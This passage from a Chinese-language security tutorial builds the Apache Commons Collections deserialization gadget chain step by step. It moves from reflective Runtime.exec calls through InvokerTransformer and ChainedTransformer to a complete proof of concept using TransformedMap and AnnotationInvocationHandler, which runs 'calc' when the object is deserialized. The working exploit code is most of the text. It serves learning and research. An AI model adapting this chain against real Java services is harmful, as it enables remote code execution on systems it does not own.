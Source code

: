 ```java
        Class cl = Runtime.class;
        Method getRuntimeMethod = cl.getMethod("getRuntime",null);
        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
        Method execMethod = cl.getMethod("exec", String.class);
        execMethod.invoke(r,"calc");
```
可以成功弹出计算器：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/b33ca750a7e5b244b1e0aa7fd12ce55a.png)
但此时我们需要将其改写成InvokerTransformer的形式如下，但是这样嵌套创建太麻烦了：

```java
        Class rc=Class.forName("java.lang.Runtime");
        Method getRuntime= (Method) new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
        Runtime r=(Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntime);
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
```
于是找到了另一个ChainedTransformer类，它也存在transform方法，可以帮助我们拼接好上述过程，如下：

```java
        Transformer[] Transformers=new Transformer[]{
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer= new ChainedTransformer(Transformers);
        chainedTransformer.transform(Runtime.class);
```
然后，我们的poc变成了如下形式：

```java
 Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        //将数组transformers传给ChainedTransformer，构造利用链
        Transformer transformerChain = new ChainedTransformer(transformers);
        //invokertransformer.transform(runtime);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("pear","pear");
        Map transformedmap = TransformedMap.decorate(map,null,transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Override.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
```